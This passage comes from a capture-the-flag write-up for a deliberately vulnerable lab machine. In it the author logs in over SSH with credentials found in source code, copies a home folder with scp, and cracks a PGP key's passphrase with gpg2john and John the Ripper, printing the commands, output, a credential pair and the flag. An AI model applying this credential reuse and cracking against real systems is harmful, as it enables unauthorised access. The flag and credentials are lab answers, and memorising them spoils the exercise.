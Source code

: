 `skyfuck : 8730281lkjlkjdqlksalks`

ssh port open maybe we can ssh with those

bingo!

```
skyfuck@ubuntu:~$ whoami
skyfuck
```

we go straight home and find two folders

user merlin got our user flag

```
THM{tomcat_is_dead}
```

## Priviledge Escalation

The second folder have two files pgp and asc files

Might be key for decryption and privileges escalation?

I want those files...so I get them

I scp the whole skyfck folder from another terminal with

`scp -r skyfuck@10.10.152.29:/home/skyfuck .`

Time to crack that pgp

Tried to import the key but it asked for secret wordpass...wich I do not have

So we do some magic

`gpg2john tryhackme.asc > tryhackme.john`

its always rockyou.txt

```
john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.john
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru (tryhackme)
1g 0:00:00:01 DONE (2021-10-29 20:05) 0.6896g/s 739.3p/s 739.3c/s 739.3C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

alexandru? what a passphrase

